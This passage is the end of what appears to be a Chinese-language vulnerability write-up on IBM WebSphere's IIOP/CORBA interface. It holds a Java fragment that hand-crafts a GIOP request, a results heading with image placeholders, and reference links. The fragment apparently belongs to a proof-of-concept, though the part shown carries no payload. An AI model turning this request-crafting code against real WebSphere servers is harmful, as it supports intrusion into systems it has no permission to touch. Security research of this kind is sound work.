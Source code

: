 ```
    cdrOutputStream.write_octet_array(objectKey.getBytes(), 0, objectKey.length());
    cdrOutputStream.write_long(3);
    cdrOutputStream.write_octet_array("get".getBytes(),0,3);
    cdrOutputStream.write_long(0);
    cdrOutputStream.write_long(0);


    int writeOffsetEND = cdrOutputStream.getByteBuffer().getWriteOffset();
    cdrOutputStream.rewriteLong(writeOffsetEND-12,sizePosition);
    cdrOutputStream.getByteBuffer().flushTo(outputStream);
    System.in.read();

`}`
```

结果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013dce293fea8bc515.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014d55d3fe4b10f1e6.png)



## 参考
- [https://mp.weixin.qq.com/s/spDHOaFh_0zxXAD4yPGejQ](https://mp.weixin.qq.com/s/spDHOaFh_0zxXAD4yPGejQ)
- [https://docs.oracle.com/cd/E13211_01/wle/wle42/corba/giop.pdf](https://docs.oracle.com/cd/E13211_01/wle/wle42/corba/giop.pdf)
- [https://ws.apache.org/wsif/](https://ws.apache.org/wsif/)
- [https://www.thezdi.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere](https://www.thezdi.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere)